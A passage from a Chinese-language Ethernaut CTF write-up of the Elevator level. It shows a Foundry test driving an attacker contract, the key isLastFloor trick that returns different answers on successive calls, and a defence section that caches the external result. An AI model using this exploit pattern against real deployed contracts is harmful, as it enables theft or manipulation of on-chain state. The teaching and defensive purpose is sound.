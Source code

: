```solidity
        ElevatorAttacker attacker = new ElevatorAttacker(levelInstance);
        
        // 执行攻击
        attacker.attack(1);
        
        // 验证攻击成功
        assertEq(instance.top(), true);
        assertEq(instance.floor(), 1);
        
        // 提交关卡
        bool levelSuccessfullyPassed = ethernaut.submitLevelInstance(
            payable(levelInstance)
        );
        assert(levelSuccessfullyPassed);
    }
}
```

### 关键攻击步骤

1. **实现 Building 接口**：创建一个合约实现 `Building` 接口
2. **状态变化逻辑**：在 `isLastFloor()` 中实现状态变化
3. **调用 goTo 函数**：通过攻击合约调用 `goTo()`
4. **验证结果**：检查 `top` 是否为 `true`

```solidity
// 状态变化的关键实现
function isLastFloor(uint _floor) external override returns (bool) {
    top = !top;  // 切换状态
    return !top; // 第一次返回 false，第二次返回 true
}
```

## 🛡️ 防御措施

### 1. 避免多次调用外部函数

```solidity
// ❌ 不安全：多次调用外部函数
contract VulnerableElevator {
    function goTo(uint _floor) public {
        Building building = Building(msg.sender);
        
        if (!building.isLastFloor(_floor)) {  // 第一次调用
            floor = _floor;
            top = building.isLastFloor(floor);  // 第二次调用！
        }
    }
}

// ✅ 安全：只调用一次并缓存结果
contract SecureElevator {
    function goTo(uint _floor) public {
        Building building = Building(msg.sender);
        
        bool isLast = building.isLastFloor(_floor);  // 只调用一次
        
        if (!isLast) {
            floor = _floor;
            top = isLast;  // 使用缓存的结果
        }
    }
}
```